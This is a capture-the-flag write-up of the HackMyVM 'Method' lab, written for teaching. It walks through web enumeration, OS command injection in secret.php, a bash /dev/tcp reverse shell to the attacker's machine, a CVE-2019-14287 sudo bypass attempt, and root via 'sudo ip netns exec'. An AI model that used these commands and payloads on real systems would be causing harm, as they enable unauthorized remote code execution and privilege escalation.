

# Method

[https://hackmyvm.eu/machines/machine.php?vm=Method](https://hackmyvm.eu/machines/machine.php?vm=Method)

#### **USER FLAG**

Stepping into a Boot-to-root lab in a completely "blind" state, the first and most critical objective is to locate the target's IP address on the local network. In this environment, both my attack machine (Kali) and the target machine reside on the same subnet.

To sweep the subnet, we can utilize utilities such as `netdiscover -r 192.168.20.0/24` or `arp-scan -l`.



The network sweep reveals the target's IP address is `192.168.20.149`. Having identified the target host, the next phase is to perform an exhaustive port scan to gather intelligence on open ports and active services, thereby mapping out our attack surface.

The Nmap command executed:

```
sudo nmap -sC -sV -p- -T4 192.168.20.149
```


**Audit & Rationale for the Port Scan Configuration:**

- **`-p-` (Scan all 65,535 ports):** This ensures we do not restrict the scan to Nmap's default 1,000 ports, preventing us from missing critical services (like SSH or HTTP) that the author may have purposely bound to non-standard ports (such as 8080, 8443, or 2222).
- **`-sV` (Service Version Detection):** Identifying precise versions (e.g., Apache 2.4.x or Nginx) is a vital prerequisite for searching public CVE databases or Exploit-DB for known vulnerabilities later.
- **`-sC` (Default Scripts):** Runs Nmap's default script engine to automatically identify common configuration errors, weak parameters, or basic vulnerability indicators.
- **`-T4` (Timing Template):** Since we are auditing a stable, local LAN environment, we raise the speed profile to 4 out of 5 to optimize efficiency without risking pocket drop or timing-out.

The Nmap scan report identifies only a single, standard entry point: **Port 80 (HTTP)**.

⇒ We must concentrate our entire post-exploitation and auditing efforts on this web application.

Accessing `http://192.168.20.149` in a browser yields only the default Nginx landing page: "**Welcome to nginx**". Inspecting the source code offers no immediate directories or secrets.

When the visible surface of a web page yields no active clues, we must transition to fuzzing for hidden directories and assets using `ffuf`:

```
ffuf -u http://192.168.20.149/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

**Bypassing the Catch-All Configuration:**

Upon running the basic fuzzing command, `ffuf` flooded the screen with thousands of successful `200 OK` hits. The root cause is a "Catch-All" directive in the Nginx host configuration. The web server is configured to silently route all requests for non-existent paths back to the home directory while returning a `200 OK` code.


To neutralize this defensive camouflage, I noticed that the default routed home page has a static response size of **3690 bytes**. Consequently, I applied a negative filter using `-fs 3690` to discard all matching junk responses.


Filtering by size cleans up the output, isolating two authentic, accessible resources: **`index.htm`** and **`sitemap.xml`**.


Accessing `index.htm` displays a meme image. However, my primary focus shifts to `sitemap.xml`. Inspecting the sitemap exposes a hidden route passing a parameter: `/machines?vm=Brain`. Although navigating directly to this URL returns a default error, it confirms a critical behavioral detail: the backend processes input via GET parameters.

Re-auditing `index.htm` (the meme page), I perform a thorough code review of the raw HTML source and spot a crucial, hidden element.


Concealed directly beneath the `` tag is a hidden form structure:

```html
<form action="/secret.php" hidden="true" method="GET">
    <input type="text" name="HackMyVM" value="" maxlength="100"><br>
    <input type="submit" value="Submit">
</form>
```

**Deconstructing the Hidden Form:**

- `hidden="true"`: The author deliberately hid this form from visual rendering. Users see only a static meme, but the underlying DOM contains an active input field.
- `action="/secret.php"`: The form data is sent to a backend script named `secret.php`.
- `method="GET"` and `name="HackMyVM"`: The form uses the GET method, passing its payload via the `HackMyVM` parameter.

This is a classic signature for OS Command Injection or Local File Inclusion (LFI). It strongly suggests that `secret.php` processes the `HackMyVM` parameter directly within a system execution context (like `system()`, `exec()`, or `shell_exec()`) without prior input sanitization.

According to the form parameters, the backend expects input through `GET`. However, passing a test payload via GET directly (`http://192.168.20.149/secret.php?HackMyVM=whoami`) returns a blank response.

The backend seems to ignore or actively block GET requests. To bypass this, I decide to force the application to process my request via the **POST** method using `curl`:

```bash
curl -X POST -d "HackMyVM=whoami" http://192.168.20.149/secret.php
```

- `-X POST`: Explicitly tells cURL to issue a POST request instead of the default GET.
- `-d "HackMyVM=whoami"`: Embeds the parameter containing our system command in the body of the HTTP request, bypassing URL-based query limits or blocks.


The server immediately returns `www-data` in the terminal, confirming our theory. The host is vulnerable to **OS Command Injection** via `secret.php`, granting us Remote Code Execution (RCE) under the web server's context (`www-data`).

Leveraging this RCE, I query the home directory to identify valid local users:

```bash
curl -X POST -d "HackMyVM=ls -la /home" http://192.168.20.149/secret.php
```


The command output reveals the presence of a local user named `prakasaka`. Since executing discrete commands via `curl` POSTs is cumbersome and restricts interactive privilege escalation, I plan to trigger a reverse shell back to my Kali attack machine.

**Step 1: Setting up the Listener**
On Kali, I open a new terminal pane and start a Netcat listener on port 4444:

```bash
nc -lvnp 4444
```

**Step 2: Processing and URL-Encoding the Payload**
A standard Bash reverse shell payload targeting my Kali machine (IP: 192.168.20.129) is:
`bash -c 'bash -i >& /dev/tcp/192.168.20.129/4444 0>&1'`

**Crucial Technical Caveat:** In standard HTTP POST data, the ampersand character (`&`) functions as a delimiter separating different parameters (e.g., `param1=val1&param2=val2`). Our reverse shell payload relies heavily on `&` to redirect stdout/stderr. If passed raw via `-d`, cURL and Nginx will truncate the payload at the first `&` sign, resulting in a syntax error and connection failure.

To prevent truncation, we must fully URL-encode the payload. Rather than using external online encoders, I utilize cURL's built-in encoder using the `--data-urlencode` flag:

```bash
curl -X POST --data-urlencode "HackMyVM=bash -c 'bash -i >& /dev/tcp/192.168.20.129/4444 0>&1'" http://192.168.20.149/secret.php
```

Executing the command immediately triggers a connection back to my Netcat listener! We now possess an interactive shell session as `www-data`.

Once the shell is established, I list the contents of the current web directory (`/var/www/html`), uncovering a text file named `note.txt`. Reading it displays a hint:

*"Enumeration is the key."*


With this hint in mind, I navigate to the `/home/prakasaka` directory to locate the User Flag.

Initially, I run a default read command:

```bash
cat /home/prakasaka/user.txt
```

The system reports that the file does not exist.

Applying the "Enumeration is the key" hint, I list all files—including hidden ones—inside the home folder:

```bash
ls -la /home/prakasaka
```


This exposes a simple naming obfuscation: the author renamed the flag file to **`uSeR.txt`** (capitalized letters) to prevent simple automated scripts or default command reads from guessing it.

I read the obfuscated file to retrieve the User Flag:

```bash
cat /home/prakasaka/uSeR.txt
```

> **User Flag:** `e4408105ca9c2a5c2714a818c475d06F`

**User Flag Acquired.**

---

#### **ROOT FLAG**

Immediately upon gaining our shell, I analyzed the `secret.php` source file in `/var/www/html/` to verify if developer credentials had been exposed:


This check reveals a classic hardcoded credential leak. The developer left behind clear plaintext credentials for the system user `prakasaka`: **`prakasaka:th3-!llum!n@t0r`**.

Having confirmed `prakasaka` is the owner of the User Flag and a valid system account, I proceed to switch identities:

```bash
su prakasaka
```

Inputting the recovered password `th3-!llum!n@t0r` logs us in as `prakasaka`. I immediately audit our newly obtained Sudo privileges:


The output reveals two interesting definitions:
1. `(!root) NOPASSWD: /bin/bash`
2. `(root) /bin/ip`

**Analyzing `/bin/bash` Sudo Constraints:**

The first definition allows `prakasaka` to run `/bin/bash` under the context of any user **except root** (`!root`), without a password. Historically, this configuration is vulnerable to Sudo Bypass (CVE-2019-14287) via integer overflows. By specifying user ID `-1` (or its unsigned equivalent `4294967295`), Sudo maps the ID to `0` (root) in the kernel while bypassing the user-matching filters.

I run the exploit command: `sudo -u#-1 /bin/bash`. The system rejects the query with an `unknown user: #-1` error. This confirms that the Sudo package on this target has been updated and patched against CVE-2019-14287. Consequently, we must focus our attention on the second entry: `/bin/ip`.

**Analyzing `/bin/ip` Sudo Privileges:**

The configuration permits the execution of the system `/bin/ip` command as `root` without a password.

Auditing this path via GTFOBins, the `ip` utility features advanced capabilities for managing **Network Namespaces** (`netns`). This feature lets administrators spawn isolated virtual network interfaces and execute arbitrary system programs (`exec`) inside them. Because the `/bin/ip` command runs with root privileges via Sudo, any program spawned inside the namespace automatically inherits root privileges.

I query GTFOBins and craft the custom payload:


I proceed to create a new network namespace (which I name `dung`):

```bash
sudo /bin/ip netns add dung
```

Next, I use the `exec` option to spawn an interactive shell (`/bin/bash`) within our newly created namespace `dung`:

```bash
sudo /bin/ip netns exec dung /bin/bash
```

The shell executes, and running `whoami` confirms we are now running as the **root** user!


I navigate to the root directory and read the final flag:


> **Root Flag:** `fc9c6eb6265921315e7c70aebd22af7F`

**Root Compromised.**


---

#### **ATTACK KILL CHAIN & EXPLOITATION FLOW**

The complete penetration testing kill chain for Method:

**Phase 1: Gaining Initial Access (User: prakasaka)**
1. **Network Discovery:** Run `arp-scan` to identify the host IP, followed by `nmap` covering all ports (`-p-`) to map the active service: `80 (HTTP)`.
2. **Web Auditing:** Accessing Port 80 returns a default Nginx landing page. We run `ffuf` to brute-force directories, filtering out Nginx's catch-all size via `-fs 3690` to discover `index.htm` and `sitemap.xml`.
3. **Parameter Mapping:** Checking `sitemap.xml` hints at parameter processing. Inspecting the HTML source of `index.htm` exposes a hidden form targeting `secret.php` via the GET parameter `HackMyVM`.
4. **RCE via OS Command Injection:** The backend ignores GET requests. We pivot to sending POST requests via `curl -X POST`, successfully triggering OS command execution.
5. **Interactive Reverse Shell:** We URL-encode a Bash reverse shell payload via cURL's `--data-urlencode` to prevent delimiter truncation, establishing a shell session as `www-data`.
6. **Flag Retrieval:** We list hidden files in `prakasaka`'s home directory to identify the obfuscated flag `uSeR.txt` and read it.

**Phase 2: Local Privilege Escalation**
1. **Source Code Auditing:** Inspecting `/var/www/html/secret.php` reveals the hardcoded credentials: `prakasaka:th3-!llum!n@t0r`.
2. **System Pivot:** We transition to `prakasaka` using `su prakasaka`.
3. **Root Takeover:** Running `sudo -l` reveals a NOPASSWD entry for `/bin/ip`. We abuse the Network Namespace feature by creating a namespace and spawning a root shell: `sudo ip netns exec dung /bin/bash`, capturing the Root Flag.

---

#### **KEY TAKEAWAYS & LESSONS LEARNED**

1. **Evading Web Catch-All Handlers:** When web servers redirect invalid paths to a default home page (returning static 200 OKs), fuzzing tools become flooded with false positives. Relying on negative size-based filters (`-fs` or `-fl`) isolates authentic resources.
2. **Method-Based Parameter Restrictions:** Web applications can enforce method constraints (e.g., ignoring GET parameters while executing POST bodies). Systematically auditing endpoints using multiple HTTP methods (GET, POST, PUT) is crucial.
3. **Sanitizing Delimiters in Payloads:** When conveying commands through application protocols, special character delimiters (such as `&` or `;` in HTTP) can truncate payloads. Implementing strict URL-encoding prevents data fragmentation.
4. **Hardcoded Credential Risks:** Leaving plaintext production or administration credentials in source comments or files is a significant security flaw. System and code audits must include scanning for secrets before deployment.
5. **Evaluating Command Execution Vectors in Utilities:** Advanced system utilities (like `ip`) often feature sub-commands designed to execute external programs. Granting passwordless Sudo rights on these utilities allows users to bypass constraints and spawn privileged root shells.
